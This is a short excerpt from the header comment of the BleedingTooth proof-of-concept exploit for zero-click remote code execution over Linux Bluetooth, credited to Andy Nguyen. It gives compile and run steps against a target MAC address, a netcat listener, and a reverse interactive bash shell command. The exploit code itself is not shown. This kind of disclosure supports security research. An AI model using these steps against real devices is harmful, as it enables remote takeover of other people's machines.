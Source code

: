 BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution
by Andy Nguyen (theflow@)

 Compile using:
 *   $ gcc -o exploit exploit.c -lbluetooth
 *
 * and execute as:
 *   $ sudo ./exploit target_mac source_ip source_port
 *
 * In another terminal, run:
 *   $ nc -lvp 1337
 *   exec bash -i 2>&0 1>&0
 *
 * If successful, a calc can be spawned with:
 *   export XAUTHORITY=/run/user/1000/gdm/Xauthority
 *   export DISPLAY=:0
 *   gnome-calculator
 *
 * This Proof-Of-Concept has been tested against a Dell XPS 15 running

